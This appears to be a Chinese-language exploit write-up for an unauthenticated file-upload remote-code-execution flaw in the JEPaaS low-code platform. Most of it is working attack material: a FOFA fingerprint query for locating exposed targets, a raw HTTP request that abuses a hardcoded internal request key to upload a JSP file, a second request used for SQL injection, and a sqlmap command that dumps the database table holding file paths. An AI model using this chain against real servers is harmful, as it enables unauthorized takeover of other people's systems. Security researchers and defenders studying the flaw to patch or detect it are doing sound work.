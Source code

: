 ## JEPaaS低代码平台document存在文件上传致RCE漏洞

JEPaaS低代码开发平台开源版 旨在帮助企业快速实现信息化和数字化转型。该平台基于可视化开发环境，让软件开发人员和业务用户通过直观的可视化界面来构建应用程序 ，而不是传统的编写代码方式。用户可以在开发平台灵活各个图形化控件，以构建业务流程、逻辑和数据模型等所需的功能，必要时还可以添加自己的代码。该平台基于可视化开发环境，通过低代码拖拽式配置开发，大幅简化开发流程，提高开发效率。以其强大的功能和灵活性，适用于各种企业信息化管理系统的搭建，包括OA、ERP、CRM、HR等，并支持集团公司部署。JEPaaS低代码平台document/file存在文件上传漏洞，未经身份验证的远程攻击者可利用内部默认的key参数绕过权限认证上传任意文件，获取服务器权限。

## fofa

```
icon_hash="-999810473"
```

## poc

```
POST /je/document/file?bucket=webroot HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2,
internalRequestKey: schedule_898901212
Content-Type: multipart/form-data; boundary=----21909179191068471382830692394
Connection: close
 
------21909179191068471382830692394
Content-Disposition: form-data; name="files"; filename="2214.jsp"
Content-Type: image/jpeg
 
123
------21909179191068471382830692394--
```

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300929469.png)

![image.png](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202405300929751.png)

需要搭配sql注入跑出文件路径

### sql

```
POST /rbac/im/accessToTeanantInfo HTTP/1.1
Host: xxxxx
Accept-Language: zh-CN,zh;q=0.9
internalRequestKey: schedule_898901212
Upgrade-Insecure-Requests: 1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Cookie: je-local-lang=zh_CN; JSESSIONID=155BD0DA95609068A00408ACF1326C63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 0

tenantId=1
```

```
sqlmap -r 2.txt --level 3 -D "jepaas" -T "je_document_file" --dump --fresh-queries
```

